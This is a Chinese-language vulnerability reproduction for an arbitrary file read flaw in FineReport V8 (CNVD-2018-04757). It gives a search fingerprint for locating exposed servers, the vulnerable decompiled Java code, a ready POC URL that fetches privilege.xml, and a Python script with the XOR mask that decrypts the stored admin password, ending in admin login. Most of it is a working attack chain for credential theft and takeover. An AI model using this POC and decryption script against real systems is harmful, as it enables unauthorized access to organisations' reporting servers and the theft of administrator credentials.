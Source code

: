 # 帆软报表 V8 get_geo_json 任意文件读取漏洞 CNVD-2018-04757

## 漏洞描述

FineReport报表软件是一款纯Java编写的，集数据展示(报表)和数据录入(表单)功能于一身的企业级web报表工具。

FineReport v8.0版本存在任意文件读取漏洞，攻击者可利用漏洞读取网站任意文件。

## 漏洞影响

<a-checkbox checked>FineReport < v8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="isSupportForgetPwd"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件为 fr-applet-8.0.jar

```java
package com.fr.chart.web;

import com.fr.base.FRContext;
import com.fr.general.IOUtils;
import com.fr.stable.CodeUtils;
import com.fr.web.core.ActionNoSessionCMD;
import com.fr.web.utils.WebUtils;
import java.io.InputStream;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class ChartGetFileContentAction extends ActionNoSessionCMD {
    public ChartGetFileContentAction() {
    }

    public void actionCMD(HttpServletRequest var1, HttpServletResponse var2, String var3) throws Exception {
        String var4 = CodeUtils.cjkDecode(WebUtils.getHTTPRequestParameter(var1, "resourcepath"));
        if (!WebUtils.invalidResourcePath(var4)) {
            InputStream var5 = FRContext.getCurrentEnv().readResource(var4);
            String var6 = IOUtils.inputStream2String(var5);
            var6 = var6.replace('\ufeff', ' ');
            WebUtils.printAsString(var2, var6);
        }
    }

    public String getCMD() {
        return "get_geo_json";
    }
}
```



使用request将文件名传入 调用cjkDecode函数解密文件名

使用invalidResourcePath函数校验文件是否存在

最后使用readResource函数读取文件传输到浏览器上 默认目录为resources

其中的privilege.xml里面存储了后台的用户名密码

```xml
<?xml version="1.0" encoding="UTF-8"?>
<PrivilegeManager xmlVersion="20170715" releaseVersion="8.0.0" fsSystemManagerPassSet="true" birthday="0" male="false">
<rootManagerName>
<![CDATA[admin]]></rootManagerName>
<rootManagerPassword>
<![CDATA[___00520017004e002b004100b7004200250023007f003d003d005400e4001c0057]]></rootManagerPassword>
<AP class="com.fr.privilege.providers.NoAuthenticationProvider"/>
<ForwardUrl>
<![CDATA[${servletURL}?op=fr_platform]]></ForwardUrl>
<PVFILTER class="com.fr.fs.privilege.auth.BasePrivilegeFilter"/>
</PrivilegeManager>
```

<a-checkbox checked>加密函数</a-checkbox></br>

```java
public static String passwordEncode(String var0) {
        StringBuilder var1 = new StringBuilder();
        var1.append("___");
        if (var0 == null) {
            return var1.toString();
        } else {
            int var2 = 0;

            for(int var3 = 0; var3 < var0.length(); ++var3) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                int var4 = var0.charAt(var3) ^ PASSWORD_MASK_ARRAY[var2];
                String var5 = Integer.toHexString(var4);
                int var6 = var5.length();

                for(int var7 = 0; var7 < 4 - var6; ++var7) {
                    var5 = "0" + var5;
                }

                var1.append(var5);
                ++var2;
            }

            return var1.toString();
        }
    }
```

<a-checkbox checked>解密函数</a-checkbox></br>

```java
public static String passwordDecode(String var0) {
        if (var0 != null && var0.startsWith("___")) {
            var0 = var0.substring(3);
            StringBuilder var1 = new StringBuilder();
            int var2 = 0;

            for(int var3 = 0; var3 <= var0.length() - 4; var3 += 4) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                String var4 = var0.substring(var3, var3 + 4);
                int var5 = Integer.parseInt(var4, 16) ^ PASSWORD_MASK_ARRAY[var2];
                var1.append((char)var5);
                ++var2;
            }

            var0 = var1.toString();
        }

        return var0;
    }
```



使用python写出的解密代码为

```python
cipher = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```



这里使用上面讲述的原理进行复现,访问目标



![img](../../../.vuepress/public/img/fan-1.png)

访问POC为,读取密码文件 privilege.xml

```plain
/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

![img](../../../.vuepress/public/img/fan-2.png)



使用解密脚本解密文件



![img](../../../.vuepress/public/img/fan-3.png)



得到密码，即可登陆后台系统，账户为 admin



![img](../../../.vuepress/public/img/fan-4.png)